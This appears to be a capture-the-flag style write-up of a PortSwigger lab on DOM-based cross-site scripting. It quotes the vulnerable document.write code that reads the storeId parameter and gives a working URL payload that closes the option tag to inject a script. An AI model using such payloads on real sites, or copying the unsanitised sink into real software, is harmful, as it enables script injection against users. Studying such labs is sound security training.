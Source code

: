 # DOM XSS in document.write sink using source location.search inside a select element

**Lab Url**: [https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

![Lab Description](img/lab-description.png)

## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases an image catalog with an image, a title, a price, a star rating, and a "View details" button. The "view details" button redirects to the product page.

The product page has a stock check functionality inside a form element. **There is another interesting code of javascript inside the form element.**

```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

## Conclusion

This code block tries to create an `<option></option>` tag from `storeId` parameter if it exist.

Now, that we know we can control the DOM with the `storeId` parameter in the URL. We can inject a malicious code that will pop an `alert` box.

```bash
/product?productId=1&storeId=</option><script>alert(document.domain)</script><option>
```

![Lab Solved](img/lab-solved.png)
